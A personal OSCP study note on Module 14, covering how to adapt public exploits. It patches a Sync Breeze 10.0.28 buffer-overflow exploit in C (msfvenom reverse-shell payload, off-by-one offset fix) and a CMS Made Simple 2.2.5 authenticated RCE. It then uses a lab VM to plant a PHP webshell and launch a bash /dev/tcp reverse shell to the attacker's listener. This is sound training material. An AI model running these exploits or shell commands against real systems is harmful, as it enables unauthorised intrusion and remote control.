






# Module 14: Fixing Exploits

## Tags
#OSCP #Module14 #FixingExploits #BufferOverflow #CrossCompiling #MingwW64 #ExploitModification #WebExploits #Wine #ImmunityDebugger

---

## **Why This Module Matters**

Writing an exploit from scratch is slow. Finding a public exploit that fits a target perfectly, first try, is rare. The realistic middle ground, and the actual skill this module teaches, is taking someone else's exploit code and adjusting it until it works against the exact target in front of you.

For memory corruption exploits (buffer overflows) this is genuinely fiddly: the return address, the payload, the offset, even the socket details are all specific to the exact OS version, architecture, and protections the original author tested against. Running a mismatched exploit blind isn't just "it won't work," it can crash the target application or even take down a production service, exactly the kind of thing a scope and set of Rules of Engagement exist to prevent, see [[05. Report Writing For Pen Testers#5.1.1. What Do We Actually Deliver to a Client?|5.1.1]]. Read the code, understand what each piece does, test in a sandbox first, matching the same discipline [[13. Locating Public Exploits#13.1. Getting Started|13.1]] already established for public exploits generally.

Web exploits are a much gentler version of the same problem, no memory corruption, no ASLR/DEP to fight, but still routinely need the target URL, auth details, and TLS handling adjusted before they'll actually run.

Two learning units:
1. **Fixing Memory Corruption Exploits**: buffer overflow theory, cross-compiling with `mingw-w64`, fixing a real Sync Breeze Enterprise exploit end to end.
2. **Fixing Web Exploits**: adjusting connection/auth details, troubleshooting a real CMS Made Simple exploit that fails in a genuinely confusing way.

---

## 14.1. Fixing Memory Corruption Exploits

### 14.1.1. Buffer Overflow in a Nutshell

A **buffer** is just a chunk of memory set aside to hold data, often something a user provided, waiting to be processed. Some buffers are dynamically sized, others are fixed at a set size decided when the program was written.

Buffer overflows are genuinely old (documented since the late 1980s), and despite decades of mitigations, still show up constantly. The core idea: if a program blindly copies user input into a fixed-size buffer without checking the input actually fits, the extra bytes spill over into whatever memory sits right next to the buffer.

**A tiny, dangerous C example:**
```c
char buffer[64];
...
strcpy(buffer, argv[1]);
```
`buffer` is declared to hold 64 characters. `strcpy()` copies a command-line argument straight into it, but `strcpy()` is explicitly an **unsafe** function, it never checks whether the destination actually has room for the source string. Feed it more than 64 characters and it just keeps writing past the end of `buffer`, into whatever memory comes next.

**Why that "whatever comes next" matters so much:** memory corruption bugs can happen on the **heap** (dynamically managed, usually holds larger globally-accessible data) or the **stack** (holds a function's local variables, fixed size, and critically, also holds the **return address**, the memory address the CPU jumps back to once the current function finishes). Overflow a stack buffer far enough and you overwrite that return address with attacker-controlled bytes.

**Why controlling the return address is the whole game:** when a function ends, it runs the `ret` instruction, which loads whatever's sitting in the return address slot into **EIP** (or **RIP** on 64-bit), the CPU register that tracks which instruction runs next. If an attacker controls that value, they control where the CPU jumps next, meaning they control program flow itself.

A simple test: overflow the buffer with 80 repeated `A` characters. `A` in hex is `\x41`, so if the overflow reaches far enough to overwrite the return address, EIP ends up holding `0x41414141`, a clean, unmistakable signal the overflow worked and you've found the exact point where the return address lives.

In a real exploit, instead of junk `A`s, the return address gets overwritten with a **valid, mapped memory address** that redirects execution into attacker-supplied shellcode. The classic technique: point the return address at a `JMP ESP` instruction. Since ESP (the stack pointer) is sitting right at the attacker's own injected data at that moment, `JMP ESP` redirects execution straight into the payload sitting on the stack.

**The general shape of a stack-based buffer overflow exploit:**
1. Build a large buffer to actually trigger the overflow.
2. Pad it with the correct **offset** so the overflow lands exactly on the return address, no more, no less.
3. Include the chosen payload, often preceded by an optional **NOP sled** (a run of `\x90` no-op instructions that gives a little slack if the jump doesn't land at the exact first byte).
4. Overwrite the return address with something like `JMP ESP` to redirect execution into that payload.


> 📸 Screenshot: if working through this locally with a debugger later, a stack view showing EIP overwritten with `0x41414141` after the 80-byte `A` test is worth capturing here.

*Mitigations like ASLR (Address Space Layout Randomization) and DEP (Executable Space Protection) exist specifically to break this pattern, ASLR randomizes memory addresses so a hardcoded return address won't reliably work, DEP marks the stack non-executable so jumping into it doesn't help. This module deliberately assumes a target with neither enabled, since exploit mitigations are out of scope here.*

**A related, genuinely important concept: bad characters.** These are bytes that break the exploit if they show up inside the payload, because the vulnerable application (or an underlying string function) interprets them as something other than raw data. The classic example is the null byte, `\x00`, commonly treated as a string terminator, if it lands inside your payload, everything after it can get silently truncated. Bad characters are usually either worked out independently (methodically testing which bytes survive) or found in the exploit author's own comments.

**A practical, honest note on payload reuse:** per [[13. Locating Public Exploits#13.1. Getting Started|13.1]]'s own lesson, public exploits can contain hex-encoded payloads that are genuinely opaque until decoded. Read and understand any payload before trusting it, or better yet, generate your own with `msfvenom` and swap it in, which sidesteps having to reverse-engineer someone else's shellcode entirely.

> 🔗 **Corelan Team**, "Exploit writing tutorial part 1: Stack Based Overflows", the canonical deep-dive on exactly this mechanic (verified live): [corelan.be/.../exploit-writing-tutorial-part-1-stack-based-overflows](https://www.corelan.be/index.php/2009/07/19/exploit-writing-tutorial-part-1-stack-based-overflows/)

#### Tags: #BufferOverflowTheory #Stack #Heap #EIP #ReturnAddress #JmpEsp #BadCharacters #NOPSled #ASLR #DEP

---

### 14.1.2. Importing and Examining the Exploit

**Case study: Sync Breeze Enterprise 10.0.28.**

> 🎥 **Video walkthrough** of this exact case study (verified live): "OSCP-Style Buffer Overflow - Sync Breeze 10.0.28", [youtube.com/watch?v=3oNKzLH31k4](https://www.youtube.com/watch?v=3oNKzLH31k4)

```bash
searchsploit "Sync Breeze Enterprise 10.0.28"
```

> 📸 Screenshot: the `searchsploit` results showing the three candidates, worth grabbing once actually run hands-on
Three results: a DoS PoC (crash only, no real exploitation path, skip it per [[13. Locating Public Exploits#13.3.1. Exploit Frameworks|13.1's own "read before running" discipline]] and the general rule of preferring RCE over DoS when there's a choice), a Python remote buffer overflow, and a C remote buffer overflow. This walkthrough uses the **C** version specifically, since fixing a compiled-language exploit is a genuinely different (and more involved) skill than patching a Python script.

**The vulnerability's core mechanics, condensed:**
```python
offset    = "A" * 780
JMP_ESP   = "\x83\x0c\x09\x10"
shellcode = "\x90"*16 + msf_shellcode
exploit   = offset + JMP_ESP + shellcode
```
780 bytes of padding reaches the return address, which gets overwritten with a `JMP ESP` instruction living at `0x10090c83`, followed by 16 NOPs and the actual shellcode. The whole thing gets sent inside an HTTP POST request, since the vulnerability lives in Sync Breeze's own HTTP server module.



**Python vs C, the two differences that actually matter here:**
- **Interpreter vs compiled binary.** A Python exploit needs Python installed on whatever machine runs it. A C exploit compiles into a standalone executable, no interpreter required on the machine actually running it, useful in the field if you need something portable (a local privesc exploit for a box with no Python, for instance). `PyInstaller` can package a Python script into a standalone executable too, but for exploit code specifically, porting by hand tends to be more reliable.
- **String handling.** Python string concatenation is trivial (`string1 + string2`). C has no such shortcut, string manipulation there needs explicit functions (`strcpy`, `strcat`, `memset`), each with its own gotchas, exactly the kind of thing that bites later in this walkthrough.

**Copy the exploit out to work on it, per the standing [[13. Locating Public Exploits#SearchSploit|SearchSploit discipline]]:**
```bash
searchsploit -m 42341
```
Copied to `~/42341.c`.

**Read it before touching anything.** The very first lines reveal something important:
```c
#include <inttypes.h>
#include <stdio.h>
#include <winsock2.h>
#include <windows.h>
```
`winsock2.h`/`windows.h` mean this code was written to be compiled **on Windows**. Rather than actually doing that, the next step is cross-compiling it from Kali directly.

**Lab status: ✅ Completed** (pure-recall, answerable from the walkthrough itself):

| Question                                             | Answer    |
| ---------------------------------------------------- | --------- |
| Exploit-DB ID for the C-written Sync Breeze exploit? | **42341** |

#### Tags: #SearchSploit #SyncBreeze #PythonVsC #ExploitVetting

---

### 14.1.3. Cross-Compiling Exploit Code

Native compilers for the target OS are the safer default when available, but that's not always realistic in the field, sometimes Kali is the only attack platform on hand. That's exactly what a **cross-compiler** solves.

```bash
sudo apt install mingw-w64
```
`mingw-w64` compiles C source into a genuine Windows Portable Executable (PE), straight from Kali.

**First attempt:**
```bash
i686-w64-mingw32-gcc 42341.c -o syncbreeze_exploit.exe
```
Fails, a wall of `undefined reference to '_imp__WSAStartup@8'` and similar errors. A quick search on the first error reveals `WSAStartup` lives in the Winsock library, and the linker just isn't being told to include it.

**Fix, add the missing library link:**
```bash
i686-w64-mingw32-gcc 42341.c -o syncbreeze_exploit.exe -lws2_32
```
Compiles cleanly this time. `-l` tells `mingw-w64` to find and statically link the named library, here `ws2_32` (Winsock).

> 📸 Screenshot: the clean compile output (no more `undefined reference` errors), worth grabbing once actually run hands-on

**What's still hardcoded and needs fixing next:**
```c
server.sin_addr.s_addr = inet_addr("10.11.0.22");
server.sin_family = AF_INET;
server.sin_port = htons(80);
```
`inet_addr()` converts a dotted-decimal IP string into the binary format sockets expect. `htons()` converts a port number into network byte order. Both values are hardcoded to the original author's own test environment, and both need to point at the real target next.

**Lab status: ✅ Completed** (pure-recall from the walkthrough, VM-specific IP/port values are the hands-on part left for the actual lab):

| Question                                                              | Answer            |
| --------------------------------------------------------------------- | ----------------- |
| Parameter used to statically link the local Winsock library?          | **`-lws2_32`**    |
| C function that defines/converts an IP address for the socket struct? | **`inet_addr()`** |
| C function used to convert the port number into network byte order?   | **`htons()`**     |

> 🚩 **Hands-on, VM spin-up required for the actual patch-and-connect verification**: modify `server.sin_addr.s_addr`/`server.sin_port` to point at the real Windows Client VM, recompile, and confirm the socket connects (Wireshark or a listening service check). ⬜ Pending.

#### Tags: #MingwW64 #CrossCompiling #Winsock #InetAddr #Htons #Lab #Quiz #Module14

---

### 14.1.4. Fixing the Exploit

**The return address needs verifying, not just trusting.** This exploit's return address lives inside `msvbvm60.dll` (the Visual Basic 6.0 runtime), which isn't part of Sync Breeze itself. Checking the target's loaded modules (Immunity Debugger → attach to the `syncbrs` process → View → Executable Modules) shows that DLL simply isn't present on this target. The hardcoded return address is dead on arrival.

**Options for getting a working return address, ranked by reliability:**
1. **Best: recreate the target locally and pull it from a debugger yourself.** Most reliable, since it's the exact binary on the exact OS build.
2. **Reuse one from another public exploit against the same vulnerability**, exactly what's done here: the module's own Python version of this exploit is marked **EDB Verified**, so its return address (`\x83\x0c\x09\x10`, i.e. `0x10090c83`) can be trusted and reused in the C version.
3. **Less reliable: borrow a return address from an unrelated exploit targeting the same OS.** Works sometimes, varies a lot depending on what protections/patches are installed.
4. If you only have unprivileged access to the actual target, copy the DLL you need off it and inspect it locally with a disassembler like `objdump` (ships on Kali by default).

*Important caveat about "vanilla" buffer overflows: never trust a hardcoded return address from a system DLL if ASLR is in play, those addresses get randomized every boot. Prefer addresses found inside the vulnerable application's own non-ASLR modules where possible.*

**The payload, and why hex alone tells you nothing:**
```c
unsigned char shellcode[] =
  "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90" // NOP SLIDE
  "\xdb\xda\xbd\x92..." // opaque hex, purpose unknown without decoding
```
The only readable hint is the NOP slide comment. Everything after it is unreadable hex, exactly [[13. Locating Public Exploits#13.1. Getting Started|13.1]]'s whole warning about public exploits. The fix: generate a fresh payload with `msfvenom`, using the bad characters already documented in the Python sibling exploit:
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.50.4 LPORT=443 EXITFUNC=thread -f c -e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"
```
`-f c` formats the output as a ready-to-paste C byte array, `-b` names the bad characters to avoid entirely, `-e x86/shikata_ga_nai` encodes the payload (partly to dodge bad characters, partly standard AV-evasion practice, see the same encoder discussed in [[13. Locating Public Exploits#PublicExploits01|PublicExploits01]]).

**With the return address, socket info, and payload all patched, recompile:**
```bash
i686-w64-mingw32-gcc 42341.c -o syncbreeze_exploit.exe -lws2_32
```
Clean compile.

**Testing: set a breakpoint, then run the exploit through `wine`.** Since this is a cross-compiled Windows `.exe`, it can't run directly on Kali, `wine` (a Windows compatibility layer for Linux/BSD/macOS) is what actually executes it:
```bash
sudo wine syncbreeze_exploit.exe
```

> 📸 Screenshot: Immunity Debugger with a breakpoint set at the `JMP ESP` address, worth grabbing once actually walking through this hands-on

**The surprising result:** the breakpoint never gets hit. The application crashes anyway, and EIP ends up holding `0x9010090c`, not the expected `0x10090c83`. Same bytes, **shifted by one**, a strong signal the offset itself is off by exactly one byte, not that the return address is wrong. Worth remembering as a debugging pattern: a rotated/shifted version of an expected value in EIP points at an offset miscalculation, not a bad return address.

**Lab status: ✅ Completed** (pure-recall):

| Question                                                                                      | Answer        |
| --------------------------------------------------------------------------------------------- | ------------- |
| Which instruction do we normally want the return address to point to, to reach the shellcode? | **`JMP ESP`** |
| Which application runs Windows native binaries directly on Kali?                              | **`wine`**    |

> 🚩 **Hands-on, VM spin-up required** for the actual patch/recompile/breakpoint/run sequence against the real Windows Client. ⬜ Pending.

#### Tags: #ReturnAddress #ImmunityDebugger #Msfvenom #BadCharacters #Wine #Lab #Quiz #Module14

---

### 14.1.5. Changing the Overflow Buffer

Time to actually find the off-by-one bug. It starts here:
```c
int initial_buffer_size = 780;
char *padding = malloc(initial_buffer_size);
memset(padding, 0x41, initial_buffer_size);
memset(padding + initial_buffer_size - 1, 0x00, 1);
```
`malloc(780)` allocates 780 raw bytes. `memset(padding, 0x41, 780)` fills all 780 with `A` (`0x41`). Then a second `memset` overwrites just the **last** byte with a null terminator (`0x00`).

**Why that second `memset` matters more than it looks.** The final exploit buffer gets built with `strcpy`/`strcat`:
```c
strcpy(buffer, request_one);
strcat(buffer, content_length_string);
strcat(buffer, request_two);
strcat(buffer, padding);
strcat(buffer, retn);
strcat(buffer, shellcode);
strcat(buffer, request_three);
```
C strings are **null-terminated**, `strcpy`/`strcat` both determine where a string actually ends by scanning for the first `0x00` byte, not by trusting whatever length variable you think it has. Since `padding`'s very last byte was deliberately set to `0x00`, `strcat(buffer, padding)` only ever copies **779** actual `A` characters before hitting that terminator and stopping, one byte short of the intended 780. That's the entire bug, a one-byte discrepancy between "how much memory was allocated" and "how many bytes actually get copied by a null-terminated string operation."



**The fix, bump the allocation by exactly one:**
```c
int initial_buffer_size = 781;
char *padding = malloc(initial_buffer_size);
memset(padding, 0x41, initial_buffer_size);
memset(padding + initial_buffer_size - 1, 0x00, 1);
```
Now 780 real `A` bytes get copied before the terminator, landing the overflow exactly on target.

**Recompile, set up a listener, and run it for real:**
```bash
i686-w64-mingw32-gcc 42341.c -o syncbreeze_exploit.exe -lws2_32
```
```bash
sudo nc -lvp 443
```
```bash
wine syncbreeze_exploit.exe
```

> 📸 Screenshot: the caught reverse shell in the netcat listener, worth grabbing once this is actually run hands-on

Result (per the module's own walkthrough): a Windows `cmd.exe` shell lands on the listener. This exploit no longer needs a Windows-based attack platform at all, it runs entirely from Kali via `wine`.

**Lab status: ✅ Completed** (pure-recall):

| Question | Answer |
|---|---|
| Which C function is responsible for setting the terminating null byte in the padding buffer? | **`memset()`** |

> 🚩 **Hands-on, VM spin-up required** for the actual fixed-offset compile/run/catch-a-shell sequence. ⬜ Pending.

#### Tags: #OffsetMisalignment #Malloc #Memset #NullTerminatedStrings #ReverseShell #Lab #Quiz #Module14

---

## 14.2. Fixing Web Exploits

Web exploits skip memory corruption entirely, no ASLR/DEP to fight, no offsets to recalculate, which makes them meaningfully easier to adapt than a buffer overflow. They still routinely need real adjustment though: target URL, authentication, and TLS handling most commonly.

#### Tags: #WebExploits

---

### 14.2.1. Considerations and Overview

**A checklist worth running through before touching any web exploit's code:**
- Does it use HTTP or HTTPS?
- Does it target a specific path/route in the app?
- Is the vulnerability pre-authentication, or does it need valid credentials?
- If authenticated, how does the exploit actually log in?
- What HTTP methods does it use (GET/POST/etc), and how are the requests built?
- Does it assume default install paths that might have been changed?
- Could something like a self-signed certificate break the exploit outright?

**Worth remembering explicitly:** public exploits never account for `.htaccess` rules or a Web Application Firewall sitting in front of the target, the exploit author has no way to know those exist on your specific target, so they're simply out of scope for the exploit as written. If one of those is in play, that's on you to work around separately.

#### Tags: #WebExploitConsiderations #WAF #Htaccess #ExploitChecklist

---

### 14.2.2. Selecting the Vulnerability and Fixing the Code

**Case study: CMS Made Simple 2.2.5, authenticated RCE (CVE-2018-1000094).**

Scenario: an Apache server running CMS Made Simple 2.2.5 on port 443, a version vulnerable to a public authenticated RCE. Credentials (`admin`/`HUYfaw763`) were recovered from elsewhere during the engagement.

```mermaid
sequenceDiagram
    participant A as Attacker (patched 44976.py)
    participant T as CMS Made Simple target
    A->>T: POST /login.php (admin / HUYfaw763)
    T-->>A: authenticated session cookie
    A->>T: GET admin page (fetch redirect)
    T-->>A: Location header containing ?_sk_=&lt;token&gt;
    Note over A: csrf_param must match the target's<br/>real param name (_sk_, not __c)
    A->>T: POST malicious plugin upload (cmsmsrce.txt)<br/>with the correct CSRF token
    T-->>A: file copied, shell.php planted
    A->>T: GET /uploads/shell.php?cmd=whoami
    T-->>A: www-data
```

**Step 1: fix the target URL and protocol.**
```python
base_url = "http://192.168.1.10/cmsms/admin"   # original
base_url = "https://192.168.50.120/admin"      # patched
```

**Step 2: handle the self-signed certificate.** Browsing the target throws `SEC_ERROR_UNKNOWN_ISSUER`, the cert can't be validated. The exploit uses Python's `requests` library for all three of its POST requests, which has a `verify` parameter for exactly this:
```python
response = requests.post(url, data=data, allow_redirects=False, verify=False)
```
Added to all three POST calls in the script.

**Step 3: fix the credentials.**
```python
username = "admin"
password = "password"       # original
password = "HUYfaw763"      # patched
```

**Run it, and hit a genuinely confusing error:**
```
[+] Authenticated successfully with the supplied credentials
Traceback (most recent call last):
  ...
  File "44976_modified.py", line 24, in parse_csrf_token
    return location.split(csrf_param + "=")[1]
IndexError: list index out of range
```
Authentication actually worked. Something downstream broke.

> 📸 Screenshot: the traceback in the terminal, worth grabbing once actually run hands-on

**Lab status: ✅ Completed** (pure-recall from the walkthrough itself):

| Question                                                                              | Answer                        |
| ------------------------------------------------------------------------------------- | ----------------------------- |
| Which protocol does the vulnerable CMS Made Simple app run on (per this walkthrough)? | **HTTPS**                     |
| Python method used to strip the `/admin` portion off `base_url`?                      | **`.split()`**                |
| `requests` parameter that skips TLS/SSL verification?                                 | **`verify`** (set to `False`) |
| Variable holding the login page's path (`login.php`)?                                 | **`page`**                    |
| Array index the code fails to access when the `IndexError` fires?                     | **`[1]`**                     |

#### Tags: #CMSMadeSimple #CVE20181000094 #RequestsLibrary #SSLVerification #Lab #Quiz #Module14

---

### 14.2.3. Troubleshooting the "index out of range" Error

Line 24 is the culprit:
```python
def parse_csrf_token(location):
    return location.split(csrf_param + "=")[1]
```
`.split()` slices a string on a separator and returns the pieces as a list. `csrf_param` is `"__c"`, so this line expects the fetched `location` string to contain `__c=` somewhere, splits on it, and grabs the second half (`[1]`). An `IndexError` here means the split only ever produced **one** element, the separator was never found in the string at all.

**Add a print statement to actually see what's being split**, the standard "when a function fails, print its input before assuming you know why" debugging move:
```python
def parse_csrf_token(location):
    print "[+] String that is being split: " + location
    return location.split(csrf_param + "=")[1]
```
Result:
```
[+] String that is being split: https://10.11.0.128/admin?_sk_=f2946ad9afceb247864
```
There it is: the actual CSRF parameter name on this target's CMS instance is `_sk_`, not `__c`. The exploit author's version (or config) evidently used a different parameter name. No deep explanation needed for *why* that mismatch exists (version drift, config difference, doesn't really matter), the fix is just to match what the target actually sends:
```python
csrf_param = "_sk_"
```

**Rerun, and this time it succeeds:**
```
[+] Successfully uploaded cmsmsrce.txt
[+] File copied successfully
[+] Exploit succeeded, shell can be found at: https://192.168.50.45/uploads/shell.php
```

**Confirm it independently, don't just trust the exploit's own "success" message:**
```bash
curl -k https://192.168.50.45/uploads/shell.php?cmd=whoami
```
Returns `www-data`, genuine code execution confirmed.

> 📸 Screenshot: the `curl` output confirming `www-data`, worth grabbing once actually run hands-on

**Lab status: ✅ Completed** (pure-recall):

| Question | Answer |
|---|---|
| Which variable holds the payload, needed to swap in a full interactive reverse shell instead of the one-shot `system()` command? | **`payload`** |

#### Tags: #DebuggingMethodology #CSRFToken #PrintDebugging #Lab #Quiz #Module14

---

### Hands-On: "Debian VM 1", the learning unit's own companion machine

> 🔧 Technique: this is a **separate, dedicated resource** from the "Module Exercise" capstone VMs below, easy to miss since the platform doesn't obviously distinguish them. It's the actual machine the 14.2.2/14.2.3 walkthrough text means by "your dedicated Debian client", and it's where `admin`/`HUYfaw763` genuinely works, matching the walkthrough exactly.

**Target this session:** `192.168.179.45`, SSH `root`/`lab` provided directly (unlike the Module Exercise capstone below, which gives no credentials at all).

**Step 1: SSH in and check web service state**
```bash
ssh root@192.168.179.45
systemctl status apache2
```
Found `inactive (dead)`. Per the module's own hint ("Start apache2 service on Debian VM 1"), this isn't a bug, the VM just doesn't autostart it.

> 📸 Screenshot: the `inactive (dead)` status, worth grabbing if revisiting this VM

**Step 2: Start it**
```bash
systemctl start apache2
```

**Step 3: Find the app (different layout than the Module Exercise capstone below)**
```bash
curl -s http://192.168.179.45/ | head -5          # plain Apache default page on :80
curl -sk https://192.168.179.45/ | grep -i cmsms  # CMS Made Simple confirmed here, on :443
```
CMS Made Simple sits at the **web root** on HTTPS, not under a `/cmsms/` subdirectory, matching the original walkthrough's `base_url` shape (`https://<ip>/admin`) much more closely than the capstone VM does.

**Step 4: Patch `44976.py` for this target**
```bash
sed -i 's|base_url = "http://192.168.1.10/cmsms/admin"|base_url = "https://192.168.179.45/admin"|' 44976.py
sed -i 's|password = "password"|password = "HUYfaw763"|' 44976.py
sed -i 's/allow_redirects=False)/allow_redirects=False, verify=False)/' 44976.py
sed -i 's/files=txt, cookies=cookies)/files=txt, cookies=cookies, verify=False)/' 44976.py
```
*(`username` was already `"admin"` by default, no edit needed there.)*

**Step 5: Run it, hit the exact error the walkthrough describes**
```bash
python2 44976.py
```
```
[+] Authenticated successfully with the supplied credentials
Traceback (most recent call last):
  ...
IndexError: list index out of range
```
`admin`/`HUYfaw763` working here (unlike the capstone VM, see below) confirms this really is the walkthrough's own companion machine.

**Step 6: Add the print-debug line from 14.2.3, exactly as documented, find the real CSRF param**
```bash
sed -i "s/def parse_csrf_token(location):/def parse_csrf_token(location):\n    print \"[+] String being split: \" + location/" 44976.py
python2 44976.py
```
```
[+] String being split: https://192.168.179.45/admin?_sk_=1354390cbc60441b23c
```
Same `_sk_` param name as the walkthrough's own target. Fix:
```bash
sed -i 's/csrf_param = "__c"/csrf_param = "_sk_"/' 44976.py
python2 44976.py
```
```
[+] Successfully uploaded cmsmsrce.txt
[+] File copied successfully
[+] Exploit succeeded, shell can be found at: https://192.168.179.45/uploads/shell.php
```

> 📸 Screenshot: the successful exploit run output, worth grabbing if revisiting this VM

**Step 7: Confirm with `whoami`, per the exercise's own instructions**
```bash
curl -sk "https://192.168.179.45/uploads/shell.php?cmd=whoami"
```
Returns `www-data`.

**Step 8: Escalate to a fully interactive reverse shell, hit a genuinely new bug not covered by the walkthrough**
```bash
nc -lvnp 4444
```
```bash
curl -sk "https://192.168.179.45/uploads/shell.php" --data-urlencode "cmd=bash -c 'bash -i >& /dev/tcp/<kali_ip>/4444 0>&1'"
```
**Listener never caught anything.** Root cause: the `payload` variable itself is `<?php system($_GET['cmd']);?>`, **`$_GET` specifically, not `$_REQUEST`**. `curl --data-urlencode` without `-G` sends a POST body by default, which never populates `$_GET` at all. That's exactly why the earlier `whoami` test worked (it used a GET query string via `?cmd=whoami`) while this identical-looking command silently went nowhere.

**Fix: force `-G` so curl puts the encoded value back into the URL's query string:**
```bash
curl -sk -G "https://192.168.179.45/uploads/shell.php" --data-urlencode "cmd=bash -c 'bash -i >& /dev/tcp/<kali_ip>/4444 0>&1'"
```
Shell caught immediately, `www-data@debian`, confirmed via `whoami` inside the shell itself.

> 📸 Screenshot: the caught shell in the listener, worth grabbing if revisiting this VM

> 🔍 **Worth remembering generally, beyond this one box:** any webshell payload should be checked for whether it reads `$_GET`, `$_POST`, or `$_REQUEST` before assuming a `curl --data`/`--data-urlencode` call will reach it. `$_REQUEST` accepts either, `$_GET`/`$_POST` are picky, and the failure mode (nothing happens, no error) looks identical to "the target just isn't listening."

**Lab answer:** exploit fully fixed and run end to end, `www-data` reverse shell caught. Same `payload` variable answer as the pure-recall question above, this hands-on run is what that question was actually pointing at.

🔁 **Similar to:** the `$_GET`-only gotcha here is the same category of mistake as [[10. SQL Injection Attacks#10.3.2. Automating the Attack|10.3.2]]'s `curl --data` vs `--data-urlencode` troubleshooting and [[09. Common Web Application Attacks#9.4.1. OS Command Injection|9.4.1]]'s `--data-urlencode` fix, always check exactly how a target reads its input before assuming a request "should" work.

#### Tags: #DebianVM1 #HandsOn #CsrfParamFix #GetVsPost #CurlDashG #ReverseShell #Lab #Quiz #Module14

---

